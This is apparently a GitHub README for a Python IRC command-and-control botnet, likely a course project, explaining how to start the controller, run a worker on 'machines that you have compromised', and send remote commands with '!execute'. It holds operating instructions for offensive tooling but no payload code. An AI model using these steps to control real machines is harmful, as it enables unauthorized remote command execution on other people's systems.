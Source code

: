 # python-botnet
An IRC command & control botnet. Use this to communicate with machines that you have compromised and gained access to.

## How to use
Inside the directory run the command
```
python boss.py
```
Options include:
```
-s server_name
-p port_number
-x password
-c channel_name
```
Now open your favorite IRC chat client and connect to the IRC server (default is 'irc.freenode.net', port 6667), join the given channel (default is #cs460botnet-jlchao2).

In the chat box type:
```
!auth password
```
with whatever password you started boss.py with (default is 'password').

On a compromised machine, run:
```
python worker.py -n *name*
```
with some *name* for the worker.

Now in the IRC client, you can type:
```
!status
```
and see that there is one worker available.

You can send commands for the worker(s) to run:
```
!execute [num-workers] *command*
```
for example
```
!execute run vmstat
```
and view the output with:
```
!print
```



Based on an IRC library by Charles Leifer

